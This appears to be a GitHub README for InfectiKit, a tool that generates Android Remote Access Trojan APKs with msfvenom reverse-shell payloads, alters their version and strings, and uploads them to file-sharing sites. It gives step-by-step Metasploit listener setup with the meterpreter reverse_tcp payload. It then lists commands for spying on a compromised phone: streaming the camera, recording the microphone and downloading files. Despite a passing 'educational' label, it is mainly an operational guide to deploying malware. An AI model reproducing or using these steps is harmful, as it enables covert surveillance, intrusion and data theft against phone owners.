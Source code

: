 # **InfectiKit - Android RAT (Remote Access Trojan)**

**InfectiKit** is a powerful tool designed for creating and managing Android RATs (Remote Access Trojans), allowing users to generate malicious APKs with reverse shell payloads using **msfvenom**. It also includes features for modifying APK files, such as changing version information and replacing strings, as well as uploading generated files to file-sharing services. This tool integrates with **Metasploit** to facilitate penetration testing and educational purposes related to Android security.

---

## **Features**
- **Generate Android RAT APKs**: Create custom Trojan APKs with reverse shell payloads using **msfvenom**.
- **Modify APK Version Information**: Change the `versionName` and `versionCode` in APK files.
- **Replace Strings in APK**: Replace specific strings in APK files for further customization.
- **Upload Files**: Upload generated APK files to file-sharing services like **transfer.sh** or **file.io**.

---

### Step 1: **Installation Process**

1. **Clone the repository** from GitHub:

    ```bash
    git clone https://github.com/manojxshrestha/InfectiKit.py.git
    ```

2. **Change to the project directory**:

    ```bash
    cd InfectiKit.py
    ```

### Step 2: **Set Up a Virtual Environment (Optional but Recommended)**
Creating a virtual environment for this project helps manage dependencies and avoid conflicts with your global Python packages.

1. **Create a virtual environment**:

    ```bash
    python3 -m venv infectikit-env
    ```

2. **Activate the virtual environment**:

    - On Linux/macOS:

      ```bash
      source infectikit-env/bin/activate
      ```

    - On Windows:

      ```bash
      .\infectikit-env\Scripts\activate
      ```

   Once activated, your prompt should change to `(infectikit-env)` indicating that you're working inside the virtual environment.

### Step 3: **Install Dependencies**
Since the `InfectiKit.py` repository may not include a `requirements.txt` file, you need to manually create one to install the necessary Python dependencies.

1. **Create the `requirements.txt` file** with the following content:

    ```bash
    nano requirements.txt
    ```

    Add these lines to the file:

    ```
    requests
    Pillow
    ```

    Save the file by pressing `CTRL + X`, then `Y`, and `Enter`.

2. **Install the dependencies** by running:

    ```bash
    pip install -r requirements.txt
    ```

### Step 4: **Run the Tool**
Once the dependencies are installed, you can run the `InfectiKit.py` tool.

1. **Run the tool** with the following command:

    ```bash
    python3 InfectiKIt.py
    ```

2. The tool will start, and you’ll be presented with a menu to choose from various actions (e.g., generate APK, modify APK version, etc.).

### Step 5: **Follow On-Screen Instructions**
After running the tool, follow the on-screen instructions to use the tool effectively.

- You’ll likely be asked for input such as:
  - **Local IP Address and Port** to create a trojan APK using `msfvenom`.
  - Various modifications like changing the version or replacing strings in the APK.

---

### Step 5. **Deploy the APK**

### **Set Up the Listener (Metasploit)**
If the APK was created to generate a reverse shell (using `msfvenom`), you need to set up a **listener** to handle the connection.

#### **Launch Metasploit Framework:**
Start Metasploit:
```bash
msfconsole
```

#### **Set Up the Listener:**
 Use the **multi/handler** module:
   ```bash
   use exploit/multi/handler
   ```
 Set the payload to match the one used in your APK:
   ```bash
   set payload android/meterpreter/reverse_tcp
   ```
 Set the **LHOST** (local IP) and **LPORT** (port) values:
   ```bash
   set LHOST 192.168.18.88  # Replace with your local IP
   set LPORT 4444           # Use the same port you specified
   ```
 Start the listener:
   ```bash
   exploit
   ```

---

### **Trigger the APK**
Once the APK is installed and opened on the target device, it will attempt to connect back to the Metasploit listener. If the connection is successful, you’ll see a `meterpreter` session in Metasploit.

---

### Step 6. **Interact with the Target**
After gaining a session, you can interact with the target device. For example:
- List files:
  ```bash
  meterpreter > ls
  ```
- Access the camera:
  ```bash
  meterpreter > webcam_stream
  ```
- Record audio:
  ```bash
  meterpreter > record_mic
  ```
- Download files:
  ```bash
  meterpreter > download /sdcard/filename
  ```
  
### Troubleshooting
If you run into any errors or issues:
- Ensure that all dependencies are installed correctly.
- If any part of the script throws an error, check the Python version (`python3 --version`) and make sure you're running the script within the virtual environment.

---

This should be enough to get the tool up and running!
